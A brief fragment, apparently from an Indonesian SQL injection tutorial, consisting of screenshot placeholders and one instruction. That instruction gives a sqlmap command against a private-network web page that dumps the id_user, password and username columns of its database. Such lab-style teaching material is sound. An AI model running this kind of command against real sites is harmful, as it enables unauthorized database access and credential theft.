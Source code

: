<img src="./media/image16.png"
style="width:6.26806in;height:2.78889in" />

Lakukan command berikut untuk mengambil data user sqlmap -u
"http://192.168.1.10/?tampil=artikel_detail&id=83" -C
id_user,password,username --dump

<img src="./media/image17.png"
style="width:6.26806in;height:3.79792in" />
